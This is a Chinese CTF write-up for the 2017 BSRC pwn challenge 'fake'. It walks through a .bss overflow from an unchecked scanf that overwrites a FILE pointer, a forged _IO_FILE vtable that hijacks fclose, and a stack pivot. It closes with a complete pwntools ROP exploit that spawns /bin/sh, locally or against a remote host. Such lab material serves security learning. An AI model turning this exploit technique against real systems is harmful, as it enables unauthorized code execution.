




# 题目简介
[题目二进制地址]( https://static2.ichunqiu.com/icq/resources/fileupload/CTF/BSRC/2017/BSRC3-1/fake_99810C9D6A1DF0EAB1426C5CA59F83D4.zip)

运行题目,输入名字，运行截图如图：



丢入IDA，main函数如图


到welcome函数




发现使用 scanf 并且没有检查输入长度。
查看name变量发现其指向bss段，是全局变量，地址为`0x080EF9E0`
这种条件下，我们可以写入足够多的字节，溢出后面的全局变量。
从name变量向后查找，发现一个全局变量，地址为 `0x80EFA00`
查找其引用：



跳转到 menu+A1 位置，有如下代码。



可以看到 `mov eax, ds:dword_80EFA00; test eax,eax; jz short loc_8048BBA`
当全局变量`ds:dword_80EFA00`不为0，则继续执行下面代码，并且全局变量`ds:dword_80EFA00`作为参数传入fclose函数中。所以该全局变量必然是一个文件指针。指向一个文件结构体。

并且该文件 fake 是静态编译而成的。

跳转到fclose函数。可以发现存在这样一个执行路径（先寻找 call reg指令，然后结合数据流和控制流分析）。

```
.text:0804F8E0 fclose          proc near
.text:0804F8E0 ; __unwind { // __gcc_personality_v0
.text:0804F8E0                 push    ebp ; Alternative name is '__new_fclose'
.text:0804F8E1                 mov     ebp, esp
.text:0804F8E3                 push    edi
.text:0804F8E4                 push    esi
.text:0804F8E5                 push    ebx
.text:0804F8E6                 sub     esp, 0Ch
.text:0804F8E9                 mov     ebx, [ebp+8]
.text:0804F8EC                 mov     eax, [ebx]
.text:0804F8EE                 test    ah, 20h
.text:0804F8F1                 jnz     loc_804F9C0

.text:0804F8F7                 mov     edx, eax ; step 1
.text:0804F8F9                 and     edx, 8000h
.text:0804F8FF                 jz      loc_804F

.text:0804F905
.text:0804F905 loc_804F905:            ; step 2
.text:0804F905                 shl     eax, 1Ah
.text:0804F908                 sar     eax, 1Fh
.text:0804F90B                 test    edx, edx
.text:0804F90D                 mov     esi, eax
.text:0804F90F                 jz      loc_8

.text:0804F915 loc_804F915:            ; step 3
.text:0804F915                 mov     eax, [ebx+94h]
.text:0804F91B                 sub     esp, 8
.text:0804F91E                 push    0
.text:0804F920                 push    ebx
.text:0804F921                 call    dword ptr [eax+8]
```

分析代码
```
.text:0804F8E9                 mov     ebx, [ebp+8]
.text:0804F8EC                 mov     eax, [ebx]
.text:0804F8EE                 test    ah, 20h
.text:0804F8F1                 jnz     loc_804F9C0
```
我们知道`ebx=[ebp+8]`,所以ebx存储着第一个参数，也就是文件结构体的指针。
`eax = [ebx]` 
<u>只要文件指针指向的第一个字节 `eax` 与20h 之后为0，我们可以执行执行`0x0804F8F7`处的代码。</u>

继续执行到 `0x0804F915`, `eax = [ebx+94h]， call [eax+8]`
结合fclose的分析：[利用flose实现任意地址执行](https://www.jianshu.com/p/2e00afb01606)
ebx实际指向一个结构体 
```
struct _IO_FILE_plus
{
    FILE file;
    const struct _IO_jump_t *vtable;
}
```
大胆推测一下 `eax = [ebx+94h]` 即为 vtable。

而`FILE`结构体定义为
```
struct _IO_FILE{
	int _flags;           /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags
	/* The following pointers correspond to the C++ streambuf protocol. */
	/* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
	char* _IO_read_ptr;   /* Current read pointer */
	char* _IO_read_end;   /* End of get area. */
	char* _IO_read_base;  /* Start of putback+get area. */
	char* _IO_write_base; /* Start of put area. */
	char* _IO_write_ptr;  /* Current put pointer. */
	char* _IO_write_end;  /* End of put area. */
	char* _IO_buf_base;   /* Start of reserve area. */
	char* _IO_buf_end;    /* End of reserve area. */
	struct _IO_marker * 	_markers
	struct _IO_FILE * 	_chain  // next _IO_FILE
	int 	_fileno 			// file descriptor
	int 	_flags2
	_IO_off_t 	_old_offset
	unsigned short 	_cur_column
	signed char 	_vtable_offset
	char 	_shortbuf [1]
	_IO_lock_t * 	_lock
	__off64_t _offset;
	/* Wide character stream stuff.  */
	struct _IO_codecvt *_codecvt;
	struct _IO_wide_data *_wide_data;
	struct _IO_FILE *_freeres_list;
	void *_freeres_buf;
	size_t __pad5;
	int _mode;
	/* Make sure we don't get into trouble again.  */
	char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

所以我们想办法将内存构造成,注意构造的同时，内容不要包含空格、换行和制表符，否则scanf会截断。

.bss

| 地址 | 内容 | 说明 |
| --  | --   | -- |
| 0x80EF9E0| name| name开始字节内容
| 0x80EF9E4| name+4|
| ... | ... |
| 0x80efa00 | 0x80efa08|fp指针|
| ... | ... |
| 0x80efa08 | 0xffffdfff| FILE 结构体第一个变量内容；绕过test ah, 20h|
|... | ... |
| 0x80efa98| 0x80efaa0 | 0x80efa98 = ebp+0x94, 即为vtable首地址|
| ... | ... | 
|0x80efaa8| gadget addr | RoP 第一个 gadget|

因为我们只能控制bss段内容。
因此，我们要进行栈迁移操作。
可以利用 xchg esp, eax; ret;
然后再利用写入的数据，执行RoP，获取shell。

```
#/usr/env/bin python
#-*- coding: utf-8 -*- 
from pwn import *
import sys

def buf():
    buf = ''
    buf += p32( 0x42424242 ) #0x80ef9e0 <x>:    0x42424242
    buf += p32( 0x42424242 ) #0x80ef9e4 <x+4>:  0x42424242
    buf += p32( 0x42424242 ) #0x80ef9e8 <x+8>:  0x42424242
    buf += '/bin/sh\x00'     #0x80ef9ec          # ebx point here
    #buf += p32(0x00000000)
    buf += p32( 0x42424242 ) #0x80ef9f4 <x+20>: 0x42424242
    buf += p32( 0x42424242 ) #0x80ef9f8 <x+24>: 0x42424242
    buf += p32( 0x42424242 ) #0x80ef9fc <x+28>: 0x42424242
    buf += p32( 0x80efa04 ) #0x80efa00 <x+32>:fclose 
    buf += p32( 0xffffdfff ) #0x80efa04 <x+36>: 0x00000000  To bypass test ah, 20h
    buf += p32( 0x00000000 ) #0x80efa08 <x+40>: 0x00000000
    buf += p32( 0x00000000 )     #0x80efa0c <x+44>:
    buf += p32( 0x00000000 )
    buf += p32( 0x00000000 ) #0x80efa14 <x+52>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa18 <x+56>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa1c <x+60>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa20 <x+64>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa24 <x+68>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa28 <x+72>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa2c <x+76>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa30 <x+80>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa34 <x+84>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa38 <x+88>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa3c <x+92>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa40 <x+96>: 0x00000000
    buf += p32( 0x00000000 ) #0x80efa44 <x+100>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa48 <x+104>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa4c <x+108>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa50 <x+112>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa54 <x+116>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa58 <x+120>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa5c <x+124>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa60 <x+128>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa64 <x+132>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa68 <x+136>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa6c <x+140>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa70 <x+144>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa74 <x+148>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa78 <x+152>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa7c <x+156>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa80 <x+160>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa84 <x+164>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa88 <x+168>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa8c <x+172>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa90 <x+176>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa94 <x+180>:    0x00000000
    buf += p32( 0x80efaa0 ) #0x80efa98 <x+184>:    0x00000000
    buf += p32( 0x00000000 ) #0x80efa9c <x+188>:    0x00000000
    buf += p32( 0x0804e9aa) #0x80efaa0 <x+192>: addr point to  "add esp" gadget
    buf += p32( 0x00000000 ) #0x80efaa4 <x+196>:    0x00000000
    buf += p32( 0x08048f66 ) #0x80efaa8 <x+200>:    first gadget xchg esp, eax;
    buf += p32( 0x00000000 ) #0x80efaac <x+204>:    0x00000000
    buf += p32(0x8049613) # 0x08049613: xor eax, eax; ret;	3 shellcode start 
    buf += p32(0x08072f31) #0x08072f31 : pop ecx ; pop ebx ; ret	4
    buf += p32(0x80efa1c)
    buf += p32(0xdeadbeef)
    buf += p32(0x08072f08) #0x08072f08 : pop esi ; pop ebx ; pop edx ; ret	5
    buf += p32(0xdeadbeef)
    buf += p32(0x80ef9ec)
    buf += p32(0x80efa1c)
    buf += p32(0x806ba13) # 0x0806ba13: pop eax; jnp 0x5b0e5e5e; pop esi; ret;	6
    buf += p32(0xfffffff5)
    buf += p32(0xdeadbeef)
    buf += p32(0x08062527) # 0x08062527: neg eax; ret;	7
    buf += p32(0x0804dc35) # 0x0804dc35: int 0x80	8
    buf = buf.replace('\x0a','X')
    buf = buf.replace('\x0b','X')
    buf = buf.replace('\x09','X')
    buf = buf.replace('\x20','X')
    return buf

def my_read(path):
    io.recvuntil('> ')
    io.sendline(str(1))
    io.recvline()
    io.sendline(path)

def my_print(content):
    io.recvuntil('> ')
    io.sendline(str(2))
    io.send(content)

def my_exit():
    io.recvuntil('> ')
    io.sendline(str(3))

def exploit1():  #Rop
    gdb.attach(io,' b *0x804f920')
    #gdb.attach(io)
    #gdb.attach(io)
    io.recvuntil('Whats your name?\n')
    name = buf()
    #gdb.attach(io)
    io.sendline(name)
    #pause()
    my_exit()
    io.recvuntil('Bye~\n')

    io.interactive()
if __name__ == "__main__":
    context.binary = "./fake"
    context.terminal = ['gnome-terminal','-x','sh','-c']
    context.log_level = 'debug'
    elf = ELF('./fake')
    if len(sys.argv)>1:
        io = remote(sys.argv[1],sys.argv[2])
        exploit1()
    else:
        io = process('./fake')
        exploit1()

```
